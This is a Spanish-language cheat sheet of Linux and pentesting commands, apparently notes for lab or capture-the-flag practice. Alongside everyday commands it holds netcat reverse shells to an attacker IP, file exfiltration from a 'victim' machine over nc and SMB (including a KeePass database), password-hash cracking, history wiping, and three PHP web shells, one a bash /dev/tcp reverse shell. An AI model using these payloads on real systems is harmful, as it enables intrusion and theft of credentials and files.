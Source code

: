 # Comandos Linux

- **sudo** -> Te permite ejecutar un comando o funcion en la consola.
- **su (switch user)** -> Cambiar de usuario

Modo Vi en la consola 
**Esc** - Entras al modo Vi y puedes tener una mayor agilidad al momento de borrar comandos o moverte

- **/etc/hosts** Ruta para colocar dominios e IP's
- **/etc/passwd** Ruta de las cuentas de usuario
- **/etc/shadow** Ruta de hashes de passwrod de usuario estan almacenadas ahi
- **/etc/group** Ruta de configuracion del archivo de grupos
- **/etc/shells** Podemos ver las diferentes shells que hay 
- **/etc/ssh/sshd_config** Podemos ver las configuraciones de ssh y ver si el usuario root se puede conectar 

- **/tmp** Directorio con capacidad de escritura
- **/var/tmp** Directorio con capacidad de escritura
- **/dev/shm** Directorio con capacidad de escritura

- /usr/share/Seclists/Web-Shells/FuzzDB/**nc.exe**    Netcat nos ayuda a conseguir una ReverShell

- Comando -> **watch -n 1 ls -l /bin/bash** Monitoreamos el comando /bin/bash y miramos con ls -l (l=ele)
- Comando -> **!$** Referencias el ultimo argumento que hayamos puesto en la consola 
- Comando -> **echo ‘’ > ~/.zsh_history** Para borrar el historial en la zshrc
- Comando -> **echo $PATH** Miramos el path de la consola Linux

- Comando -> **sudo openvpn < FILENAME.ovpn>** – Te conectas a una vpn especifica
- Comando -> **extractPorts < FILENAME>** (Sirve para mostrarte los puertos mas relevantes y copiarlos en el cli para uso instantaneo )
- Comando -> **Settarget < IP - NAME>** -Agregamos en la esquina derecha la IP y el nombre de la maquina (Es una funcion antes configurada en la zsh)
- Comando -> **mkt** – Crea 3 directorios ya establecidos (content, exploit, namp) propios de la configuracion de parroy antes hecha
- Comando -> **mkdir -p /PATH/** Creamos una ruta con muchos directorios 

- Comando -> **arp-scan -I ens33 --localnet** Escaneamos toda la red (l=i mayuscula)
- Comando -> **macchanger -l | grep -i < NAME_VENDOR>** Podemos ver los vendors y asi determinar que es (l=ele)
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **lsb_release -a** Nos proporciona informacion de que Linux es 
- Comando -> **whoami** Nos muestra el usuario que somos
- Comando -> **hostname -I** Miramos nuestra interface (I=i mayuscula)
- Comando -> **uname -a** Enumeras la version del Kernel
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux

- Comando -> **7z l file.zip** (l=ele) Podemos ver el contenido interno del archivo zip, gz, bzip2, etc...
- Comando -> **7z x file.gz** (l=ele) Podemos extraer el contenido interno del archivo zip, gz, bzip2, etc...

- Comando -> **cat < FileName> | wc -l** Te muestra el numero de palabras en fila que existen en ese archivo (l=ele)
- Comando -> **exiftool <Image.jpg>** Con esa herramienta podemos ver los metadatos de una imagen 
- Comando -> **steghide info <Image.jpg>** Para ver si la imagen tiene contenido oculto
-  Comando -> **steghide extract -sf <Image.jpg>** Para ver si la imagen tiene contenido oculto (sf=sourcefile)

- Comando -> **find / -name < WORD> 2>/dev/null** Para encontrar el directorio y los permisos denegados no nos los muestre
- Comando -> **file < FILE>** Nos muestra que tipo de archivo es por los magic numbers

- Comando -> **ifconfig** o **ip a** – Miras la tarjeta de red (ens33 ‘IP Local’ , Tun0 ‘IP VPN’)

- Comando -> **ls bin/** Para ver que comandos podemos ejecutar 

- Comando -> **ping -c 1 < TARGET IP>** Mandamos un numero de ping especifico
- Comando -> **ping -c 1 < TARGET IP> -R** Verificar si tenemos conexion a una IP mandando numeros de ping especificos (R=traceroute, solo aplica en maquinas Linux, c=numero de ping) (ttl=64 Linux, ttl=128 Windows )

- Comando -> **tcpdump -i < INTERFACE> icmp -n** (n=no resolucion DNS) Nos ponemos en escucha para trazas icmp y recibir los pings

- Server Comando -> **nc.exe -e cmd < NUESTRA IP> < PUERTO>** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico
- Comando -> **rlwrap nc -nlvp 443** Nos ponemos en escucha por el puerto 443 (Podemos hacer **Ctrl + l**, sin poder hacer **Ctrl + c**) maquinas Windows
- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux

- Comando -> **nc < Nuestra IP> 443 < secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux, para mandar un archivo por netcat a nuestra direccion IP, esto desde la maquina victima
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux esto en la maquina de atacante para recibir el archivo y colocarlo con la misma extencion y el mismo nombre.

- Comando -> **smbserver.py < FOLDERNAME> $(pwd)** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
- Comando -> **impacket-server < FOLDERNAME> $(pwd) -smb2support** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
	- **\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443** Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443 (Se coloca en la maquina victima)
	- **copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 


- Comando -> **chown <USER:USER> -R < DIR PATH>** Le cambiamos el propietario a un directorio (R=Forma recursiva)
- Comando -> **chmod u+x < FILE>** Le cambiamos los permisos a un archivo (r=read, w=write, x=execution, u=user, g=grupo, o=other)

- Encontrar un archivo con extencion **.kdbx** 
	Son archivos de datos creados por KeePass 'Password Safe', se refieren a la passwd de base de datos KeePass
	- **keepassxc FILE.kdbx** Nos permite abrir un archivo keepass con passwd, de lo contrario hacemos lo siguiente
	- **keepass2john FILE.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta, guardandolo en un archivo llamado hash 

- Comando -> **cewl -w < FileName.txt> <http://URL/>** Creas un diccionario mas 'personalizado' con las palabras de una webpage y te regresa un archivo de texto

- Comando -> **upx < FILE>** Podemos bajarle el peso al archivo 

- Comando -> **find / -name < NAME> 2>/dev/null** Para encontrar el directorio y los permiso denegados no nos los muestre

- Comando -> **zip2john secret.zip > hash** Para que nos devielva el Hash y asi despues poderlo crackear y el resultado del hash lo metemos a un archivo llamado 'hash'.
- Comando -> **john -w:/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash

- Comando -> **john --wordlist=</usr/share/wordlists/rockyou.txt> < HASHFILE> --format=< HASHTYPE>** Aplicamos un ataque de fuerza bruta a un archivo hash (raw-md5, sha256)
- Comando -> **fcrackzip -p /usr/share/wordlists/rockyou.txt -b -u FILE.zip -D** Nos crackea el hash y nos proporciona la passwd (p=init-passwd-string, b=bruteforce, D=dicctionary, u=use-unzip) 

-----
ID	Cryptographic Hash Algorithm
\$1$	MD5
\$2a$	Blowfish
\$5$	SHA-256
\$6$	SHA-512
\$sha1$	SHA1crypt
\$y$	Yescrypt
\$gy$	Gost-yescrypt
\$7$	Scrypt

----
Codigo PHP para que en la url nosotros podamos ejecutar diferentes comandos **/image.php?cmd=whoami**
Despues del primer ? va php esto en los tres de abajo
<?
	system($_REQUEST['cmd']);
?>

Comando de ReverShell en PHP
<?
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

De esta manera tambien podemos hacer una revershell mas bonita, la peticion se emite por POST (REQUEST)
<?
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?> 
